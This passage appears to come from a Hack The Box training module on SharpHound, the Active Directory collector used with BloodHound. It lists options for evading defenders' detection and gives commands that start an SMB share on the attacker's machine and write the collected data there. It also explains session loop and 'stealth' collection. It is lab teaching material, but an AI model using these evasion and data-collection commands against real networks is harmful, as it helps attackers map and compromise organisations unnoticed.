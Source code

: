 It is known that SharpHound, by default, generates different `.json` files, then saves them in a zip file. It also generates a randomly named file with a `.bin` extension corresponding to the cache of the queries it performs. Defense teams could use these patterns to detect bloodhound. One way to try to hide these traces is by combining some of these options:

- `--memcache`	Keep cache in memory and don't write to disk.
- `--randomfilenames`	Generate random filenames for output, including the zip file.
- `--outputprefix`	String to prepend to output file names.
- `--outputdirectory`	Directory to output file too.
- `--zipfilename`	Filename for the zip.
- `--zippassword`	Password protects the zip with the specified password.

For example, we can use the `--outputdirectory` to target a shared folder and randomize everything. Let's start a shared folder in our PwnBox:

- **Start the shared folder with username and password**
```
sudo impacket-smbserver share ./ -smb2support -user test -password test
```

Now let's connect to the shared folder and save SharpHound output there:
```
net use \\10.10.14.33\share /user:test test
```

- **Running SharpHound and saving the output to a shared folder**
```
C:\Tools\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames
```
- **Unzipping the file**
```
unzip ./HTB_20230111113143_5yssigbd.w3f
```

### Session Loop Collection Method

When a user establishes a connection to a remote computer, it creates a session. The session information includes the username and the computer or IP from which the connection is coming. While active, the connection remains in the computer, but after the user disconnects, the session becomes idle and disappears in a few minutes. This means we have a small window of time to identify sessions and where users are active.

> Note: In Active Directory environments, it is important to understand where users are connected because it helps us understand which computers to compromise to achieve our goals.

Let's open a command prompt in the target machine and type **`net session`** to identify if there are any session active:

There are no active sessions, which means that if we run SharpHound right now, it will not find any session on our computer. When we run the SharpHound default collection method, it also includes the Session collection method. This method performs one round of session collection from the target computers. If it finds a session during that collection, it will collect it, but if the session expires, we won't have such information. That's why SharpHound includes the option `--loop`. We have a couple of options to use with loops in SharpHound:

- `--Loop`	Loop computer collection.
- `--loopduration`	Duration to perform looping (Default 02:00:00).
- `--loopinterval`	Interval to sleep between loops (Default 00:00:30).
- `--stealth`	Perform "stealth" data collection. Only touch systems are the most likely to have user session data.
